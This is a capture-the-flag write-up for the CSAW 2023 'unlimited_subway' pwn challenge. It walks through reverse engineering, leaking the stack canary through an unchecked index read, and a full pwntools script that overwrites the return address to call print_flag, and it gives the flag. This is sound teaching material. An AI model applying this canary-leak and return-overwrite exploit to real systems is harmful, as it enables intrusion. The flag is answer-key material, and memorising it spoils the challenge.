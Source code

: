 # unlimited_subway

- source code: [CSAW-CTF-2023-Quals/pwn/unlimited_subway](https://github.com/osirislab/CSAW-CTF-2023-Quals/tree/main/pwn/unlimited_subway)
- binary: [CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway](https://github.com/osirislab/CSAW-CTF-2023-Quals/blob/main/pwn/unlimited_subway/share/unlimited_subway)

## Setup

```bash
docker build -t csaw23/unlimited_subway .
docker run --rm -p 7900:7900 -it csaw23/unlimited_subway
```

## Flag

csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}

## Research

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# md5sum unlimited_subway
2f2e92a8cbd7234dafe6f25afa32abd2  unlimited_subway

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# file unlimited_subway
unlimited_subway: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a91c8ae32dffbdc3a706e70158ae362900e2b4de, for GNU/Linux 3.2.0, with debug_info, not stripped

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# checksec unlimited_subway
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# readelf -s unlimited_subway
(snip)
Symbol table '.symtab' contains 52 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
(snip)
    49: 08049304    19 FUNC    GLOBAL DEFAULT   13 print_flag
(snip)
```

There is `print_flag` symbol so check this.

`print_flag` decompiled with Ghidra:

```c
void print_flag(void)
{
  system("cat ./flag");
  return;
}
```

This function print flag.

![ghidra-Find_References_to_print_flag.png](img/ghidra-Find_References_to_print_flag.png)
![ghidra-print_flag_references.png](img/ghidra-print_flag_references.png) 

`print_flag` is not called anywhare so I think that the goal of this challenge is what call `print_flag` function by controlling EIP.

I try to understand the functionality of this binary by executing.

```
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# ./unlimited_subway
=====================================
=                                   =
=       Subway Account System       =
=                                   =
=====================================
[F]ill account info
[V]iew account info
[E]xit
> 
```

There are three functions, [F]ill (write), [V]iew (read) and [E]xit.

```
> F
Data : AAAA
```

input AAAA in Fill,

```
> V
Index : 0
Index 0 : 41
(snip)
> V
Index : 3
Index 3 : 41
(snip)
> V
Index : 4
Index 4 : 0a
(snip)
```

then I can read `AAAA\n` (= 0x41 * 4 + 0x0a) which I input in Fill.

```
> E
Name Size : 10
Name : abcde
```

In Exit, input `Name Size` and `Name` for that size.

```
> E
Name Size : 100
Name : AAAAAAAAAAAAA(snip)
*** stack smashing detected ***: terminated
zsh: IOT instruction  ./unlimited_subway
```

Inputing 100 bytes, `stack smashing detected` error occured.
I think to need Stack Canary Bypass.
It would be useful if I can leak canary [1] in Fill.

I guess Stack Overflow occures in Exit because I can control input size.

<details><summary>main decompiled with Ghidra</summary>

```c
undefined4 main(undefined4 param_1,EVP_PKEY_CTX *param_2)

{
  int in_GS_OFFSET;
  undefined4 local_94;
  size_t local_90;
  undefined2 local_8a;
  undefined4 local_88;
  undefined4 local_84;
  undefined4 local_80;
  undefined4 local_7c;
  undefined4 local_78;
  undefined4 local_74;
  undefined4 local_70;
  undefined4 local_6c;
  undefined4 local_68;
  undefined4 local_64;
  undefined4 local_60;
  undefined4 local_5c;
  undefined4 local_58;
  undefined4 local_54;
  undefined4 local_50;
  undefined4 local_4c;
  undefined4 local_48;
  undefined4 local_44;
  undefined4 local_40;
  undefined4 local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  undefined4 local_2c;
  undefined4 local_28;
  undefined4 local_24;
  undefined4 local_20;
  undefined4 local_1c;
  undefined4 local_18;
  undefined4 local_14;
  undefined4 local_10;
  undefined4 local_c;
  int local_8;
  
  local_8 = *(int *)(in_GS_OFFSET + 0x14);
  local_88 = 0;
  local_84 = 0;
  local_80 = 0;
  local_7c = 0;
  local_78 = 0;
  local_74 = 0;
  local_70 = 0;
  local_6c = 0;
  local_68 = 0;
  local_64 = 0;
  local_60 = 0;
  local_5c = 0;
  local_58 = 0;
  local_54 = 0;
  local_50 = 0;
  local_4c = 0;
  local_48 = 0;
  local_44 = 0;
  local_40 = 0;
  local_3c = 0;
  local_38 = 0;
  local_34 = 0;
  local_30 = 0;
  local_2c = 0;
  local_28 = 0;
  local_24 = 0;
  local_20 = 0;
  local_1c = 0;
  local_18 = 0;
  local_14 = 0;
  local_10 = 0;
  local_c = 0;
  local_8a = 0;
  local_94 = 0;
  local_90 = 0;
  init(param_2);
  while( true ) {
    while( true ) {
      while( true ) {
        print_menu();
        read(0,&local_8a,2);
        if ((char)local_8a != 'F') break;
        printf("Data : ");
        read(0,&local_88,0x40);
      }
      if ((char)local_8a != 'V') break;
      printf("Index : ");
      __isoc99_scanf(&DAT_0804a0e9,&local_94);
      view_account(&local_88,local_94);
    }
    if ((char)local_8a == 'E') break;
    puts("Invalid choice");
  }
  printf("Name Size : ");
  __isoc99_scanf(&DAT_0804a0e9,&local_90);
  printf("Name : ");
  read(0,&local_48,local_90);
  if (local_8 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

</details>

<details><summary>view_account decompiled with Ghidra</summary>

```c
void view_account(int param_1,int param_2)

{
  printf("Index %d : %02x\n",param_2,(uint)*(byte *)(param_1 + param_2));
  return;
}
```

</details>

Three functions summary:
- Fill: Input arbitrary value in `Data`. Input size is 0x40
- View: Input `Index`. It's readable arbitrary stack value
- Exit: Input `Name Size` and `Name`. `Name Size` are no limits so it's writable anywhere on the stack by specifing input size

Exploit Step:
1. View: Leaking canary
2. Exit: Occuring Stack Overflow, overwrite the following:
   - canary
   - return address to `print_flag` address

I try to Find the offset from the `Data` input to the canary.

`gdb --batch --ex "file unlimited_subway" --ex "disas main"`

```gdb
   0x08049518 <+513>:   mov    edx,DWORD PTR [ebp-0x4]
   0x0804951b <+516>:   sub    edx,DWORD PTR gs:0x14
   0x08049522 <+523>:   je     0x804953d <main+550>
```

In this, canary is compared.

Execute gdb, set breakpoint main+523 and run, then input the following:

```text
F
AAAA
E
1
a
```

then, `find AAAA` and Examine `$ebp-0x4`:

```gdb
gdb-peda$ find AAAA
Searching for 'AAAA' in: None ranges
Found 1 results, display max 1 items:
[stack] : 0xffffcd84 ("AAAA\n")

gdb-peda$ x $ebp-0x4
0xffffce04:     0x9aa01000
```

Calculate offset, 0xffffce04 - 0xffffcd84 = 128 (0x80 in hexadecimal).

Thus, in View I can leak canary with index 128, 129, 130 and 131.

```text
> V
Index : 128
Index 128 : 00
(snip)
> V
Index : 129
Index 129 : 04
(snip)
> V
Index : 130
Index 130 : 0c
(snip)
> V
Index : 131
Index 131 : 3d
```

e.g. the above, canary is 0x3d0c0400.

All that is left is to find the offset of the stack overflow in Exit.

```console
> E
Name Size : 65
Name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: terminated
zsh: IOT instruction  ./unlimited_subway
```

When Input size is 64, the error doesn't occure, but 65, occured.
So the offset to canary is 64 (0x40).

Then, I must also consider the offset from canary to the return address (0x4).

I implemented full exploit code.

<details><summary>solver-unlimited_subway.py</summary>

```python
from pwn import *

elf = ELF("./unlimited_subway")
flag_address = elf.symbols["print_flag"]

HOST = "localhost"
PORT = 7900


def gen_tube():
    if args.REMOTE:
        io = remote(HOST, PORT)

    elif args.GDB:
        gdbscript = """
            b *main+523
            c
        """
        io = gdb.debug([elf.path], gdbscript=gdbscript)

    else:
        io = elf.process()

    return io


def leak_canary(io):
    canary = 0

    for i in range(4):
        io.sendlineafter(b"> ", b"V")
        io.sendlineafter(b"Index : ", str(0x80 + i).encode())

        io.recvuntil(f"Index {0x80+i} : ".encode())
        value = io.recv(2)
        canary += int(value, base=16) << (i * 8)

    log.info(f"canary: {hex(canary)}")

    return canary


def overwrite_ret(io, canary):
    payload = b""
    payload += b"A" * 0x40
    payload += p32(canary)
    payload += b"B" * 0x4
    payload += p32(flag_address)

    io.sendlineafter(b"> ", b"E")
    io.sendlineafter(b"Name Size : ", f"{len(payload)}".encode())
    io.sendlineafter(b"Name : ", payload)


if __name__ == "__main__":
    io = gen_tube()
    canary = leak_canary(io)
    overwrite_ret(io, canary)

    io.interactive("")
```

</details>

Executed this script, it shows flag.

```console
root@kali:~/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share# python3 solver-unlimited_subway.py REMOTE
[*] '/root/ctf/CSAW-CTF-2023-Quals/pwn/unlimited_subway/share/unlimited_subway'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to localhost on port 7900: Done
[*] canary: 0x74d5a000
[*] Switching to interactive mode
csawctf{my_n4m3_15_079_4nd_1m_601n6_70_h0p_7h3_7urn571l3}
[*] Got EOF while reading in interactive

[*] Closed connection to localhost port 7900
```

## References

- [1] [Stack Canaries - CTF 101](https://ctf101.org/binary-exploitation/stack-canaries/#stack-canary-leaking)
